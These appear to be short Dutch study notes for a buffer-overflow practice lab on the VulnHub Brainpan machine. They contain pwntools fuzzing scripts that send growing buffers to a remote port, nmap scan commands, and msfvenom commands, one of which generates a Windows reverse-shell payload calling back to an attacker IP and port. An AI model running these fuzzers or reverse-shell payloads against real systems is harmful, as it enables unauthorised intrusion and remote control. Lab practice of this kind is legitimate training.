

vorige week niktos gebruikt

pwntools is een python library om exploits te schrijven

```python
from pwn import *
import sys

r = remote(sys.argv[1], 9999)

payload = 500*b"A"
r.sendlineafter(b">> ", payload)

r.interactive()
r.close()

```

```python
from pwn import *
import sys
context(arch = 'i386', os = 'linux')

# EXPLOIT CODE GOES HERE
for i in range(100,2000,100):
  try:
    r = remote(sys.argv[1], 9999)
    log.info("Trying amount " + str(i))
  except:
    log.info("Unable to connect")
    quit()
  try:
    r.sendlineafter(b">> ", i* b"A")
    r.close()
  except:
    log.info("Something probably died")
    quit()
```


nmap -sn ip

nmap -sV ip

```shell
msfvenom -p windows/exec CMD=calc.exe -b "\x00\x0a" -f python -v exploit
```

```shell
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.62.130 LPORT=5555 EXITFUNC=thread -b "\x00" -f python -v payload
```

https://www.vulnhub.com/entry/brainpan-1,51/